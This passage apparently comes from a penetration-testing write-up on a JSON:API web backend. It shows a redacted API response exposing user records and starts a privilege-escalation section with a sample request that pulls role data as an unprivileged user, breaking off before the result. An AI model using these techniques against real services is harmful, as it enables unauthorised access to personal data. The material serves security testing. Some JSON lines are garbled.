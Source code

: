 {
    "data": [{
        "id": "********A***********",
        "type": "UserGetResponseCustomDTO",
        "attributes": {
            "status": "ACTIVE",
            "countryId": 63,
            "timeZoneId": 3,
            "translationKey": "************",
            "email": "**********@domain.local",
            "firstName": "rafael",
            "surname": "************",
            "telephoneCountryCode": "**",
            "mobilePhone": "*********",
            "taxIdentifier": "********",
            "languageId": 1,
            "createdAt": "2024-08-09T10:57:41.237Z",
            "termsOfUseAccepted": true,
            "id": "******************",
            "type": "UserGetResponseCustomDTO"
        }
    }, {
        "id": "*A*******A*****A*******A******",
        "type": "UserGetResponseCustomDTO",
        "attributes": {
            "status": "ACTIVE",
            "countryId": 63,
            "timeZoneId": 3,
            "translationKey": ""************",
            "email": "juan*******@domain.local",
            "firstName": "juan",
            "surname": ""************",",
            "telephoneCountryCode": "**",
            "mobilePhone": "************",
            "taxIdentifier": "************",
            "languageId": 1,
            "createdAt": "2024-07-18T06:07:37.68Z",
            "termsOfUseAccepted": true,
            "id": "*******************",
            "type": "UserGetResponseCustomDTO"
        }
    }, {
        ................
```
```
## Privilege Escalation
It is very likely to find certain endpoints that check user privileges through their role. For example, we are dealing with a user who has no privileges:
### Request
```
GET /api/companyUsers?include=role HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJhb......
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
```